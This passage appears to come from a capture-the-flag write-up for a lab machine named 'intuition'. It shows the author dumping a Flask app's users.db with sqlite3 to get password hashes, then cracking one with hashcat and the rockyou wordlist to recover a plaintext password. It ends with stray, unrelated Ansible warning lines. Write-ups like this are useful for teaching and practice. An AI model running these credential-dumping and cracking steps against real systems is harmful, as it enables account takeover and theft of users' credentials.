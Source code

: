 
There is a users.db located in /var/www/app/blueprints/auth:

```bash
dev_acc@intuition:/var/www/app$ find . -type f | grep -vE '__pycache__|\.html$'
./app.py
./blueprints/auth/auth_utils.py
./blueprints/auth/users.sql
./blueprints/auth/users.db
./blueprints/auth/auth.py
./blueprints/report/report_utils.py
./blueprints/report/report.py
./blueprints/report/reports.db
./blueprints/report/reports.sql
./blueprints/dashboard/dashboard.py
./blueprints/index/index.py
```

And I can dump the users hashes:

```bash
dev_acc@intuition:/var/www/app$ sqlite3 blueprints/auth/users.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> pragma table_info(users);
0|id|INTEGER|0||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|role|TEXT|0|'user'|0
sqlite> select username,password from users;
admin|sha256$nypGJ02XBnkIQK71$f0e11dc8ad21242b550cc8a3c27baaf1022b6522afaadbfa92bd612513e9b606
adam|sha256$Z7bcBO9P43gvdQWp$a67ea5f8722e69ee99258f208dc56a1d5d631f287106003595087cf42189fc43
```

I can try to  bruteforce the hash by trying all the combinations of the dictionary rockyou.txt which has a lot of common insecure passwords and if the password used for the hash is in that dictionary, I can retrieve it.

I will start with the adam one and hashcat is auto-sufficient for detecting the hash type and it successfully cracks:

```bash
❯ hashcat adam.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-AMD Ryzen 5 5600G with Radeon Graphics, 3417/6898 MB (1024 MB allocatable), 4MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

30120 | Python Werkzeug SHA256 (HMAC-SHA256 (key = $salt)) | Framework

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

<..SNIP..>

sha256$Z7bcBO9P43gvdQWp$a67ea5f8722e69ee99258f208dc56a1d5d631f287106003595087cf42189fc43:adam gray
                                                          
Session..........: hashcat
Status...........: Cracked
```

[WARNING]: Skipping plugin (/usr/lib/python3/dist-packages/ansible/plugins/filter/core.py) as it seems to be invalid: cannot import name 'environmentfilter' from 'jinja2.filters'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-packages/ansible/plugins/filter/mathstuff.py) as it seems to be invalid: cannot import name 'environmentfilter' from 'jinja2.filters'